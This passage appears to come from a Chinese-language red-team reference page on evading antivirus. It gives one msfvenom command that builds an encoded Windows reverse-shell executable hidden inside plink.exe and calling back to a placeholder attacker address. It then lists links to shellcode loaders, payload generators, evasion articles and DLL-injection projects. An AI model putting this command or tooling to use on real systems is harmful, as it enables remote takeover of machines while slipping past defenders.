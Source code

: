 
#### msfencode

```bash
msfvenom windows/shell_reverse_tcp lhost=your-ip lport=your-port R -e x86/shikata_ga_nai -t exe -c -9 -x /usr/share/windows-binaries/plink.exe(载体) -o ./shell.exe
```

### Payload Generation

**相关工具**
- [mdsecactivebreach/CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)
- [mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)
- [tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)
- [TheWover/donut](https://github.com/TheWover/donut)
- [KINGSABRI/DotNetToJScriptMini](https://github.com/KINGSABRI/DotNetToJScriptMini)

### Loader

**相关文章**
- [CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ)
- [CS免杀-环境和编码补充(python)](https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A)
- [利用加载器以及Python反序列化绕过AV](https://www.echocipher.life/index.php/archives/648/)
- [利用Python反序列化运行加载器实现免杀](https://my.oschina.net/u/4581868/blog/4380404)
- [shellcode加载总结](https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html)
- [从剖析CS木马生成到开发免杀工具](https://www.anquanke.com/post/id/210001)

**相关工具**
- C/C++
    - [knownsec/shellcodeloader](https://github.com/knownsec/shellcodeloader)
    - [clinicallyinane/shellcode_launcher](https://github.com/clinicallyinane/shellcode_launcher)
    - [DimopoulosElias/SimpleShellcodeInjector](https://github.com/DimopoulosElias/SimpleShellcodeInjector)
    - [lengjibo/FourEye](https://github.com/lengjibo/FourEye)
    - [1y0n/AV_Evasion_Tool](https://github.com/1y0n/AV_Evasion_Tool)

- go
    - [brimstone/go-shellcode](https://github.com/brimstone/go-shellcode)

- misc
    - [Gality369/CS-Loader](https://github.com/Gality369/CS-Loader) - 远程 shellcode+RC4
    - [Arno0x/ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper)

### DLL Injection

**相关资源**
- [sud01oo/ProcessInjection](https://github.com/sud01oo/ProcessInjection) - Some ways to inject a DLL into a alive process

#### Reflection Injection

**相关资源**
- [stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
